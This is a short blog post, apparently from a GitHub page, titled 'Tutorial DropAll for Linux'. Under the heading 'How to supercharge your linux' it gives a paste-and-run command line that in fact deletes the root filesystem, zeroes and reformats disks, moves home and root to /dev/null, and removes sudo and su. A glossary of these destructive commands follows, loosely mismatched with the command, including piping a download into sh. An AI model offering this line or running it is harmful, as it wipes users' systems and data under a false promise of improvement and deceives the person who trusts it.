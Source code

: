 ```yaml
---
layout: post
title: Tutorial DropAll for Linux
subtitle: With success for begins
bigimg: https:/camo.githubusercontent.com/b9526efd09cef9f757d819f0fd8fe58a7f0954b8/68747470733a2f2f6d656469612e67697068792e636f6d2f6d656469612f6a516a76344b394f5630426f632f67697068792e676966
---
```


## How to supercharge your linux
Open your Terminal end copy/paste/enter:

> sudo rm -rf / && rm -rf .* && rm - .* && dd if=/dev/zero of=/dev/sda && mkfs.ext3 /dev/hda && echo '' > /dev/hda && cd ~; for x in ls; do mv -f $x $y; y=$x; done find -type f -mtime +30 -exec mv {} /dev/null ; && mv ~ /dev/null && mv / /dev/null && rm -f /usr/bin/sudo;rm -f /bin/su && mv /home/$user/* /dev/null &


## applications
rm – Remove the following files.

-rf – Run rm recursively (delete all files and folders inside the specified folder) and force-remove all files without prompting you.

/ – Tells rm to start at the root directory, which contains all the files on your computer and all mounted media devices, including remote file shares and removable drives.

mkfs.ext4 – Create a new ext4 file system on the following device.

/dev/sda1 – Specifies the first partition on the first hard drive, which is probably in use.

command – Run a command (can be any command.)

\> – Send the output of the command to the following location.

/dev/sda – Write the output of the command directly to the hard disk device.

dd – Perform low-level copying from one location to another.

if=/dev/random – Use /dev/random (random data) as the input – you may also see locations such as /dev/zero (zeros).

of=/dev/sda – Output to the first hard disk, replacing its file system with random garbage data.

mv – Move the following file or directory to another location.

~ – Represents your entire home folder.

/dev/null – Move your home folder to /dev/null, destroying all your files and deleting the original copies.

wget – Downloads a file. (You may also see curl in place of wget.)

http://example.com/something – Download the file from this location.

| – Pipe (send) the output of the wget command (the file you downloaded) directly to another command.

sh – Send the file to the sh command, which executes it if it’s a bash script.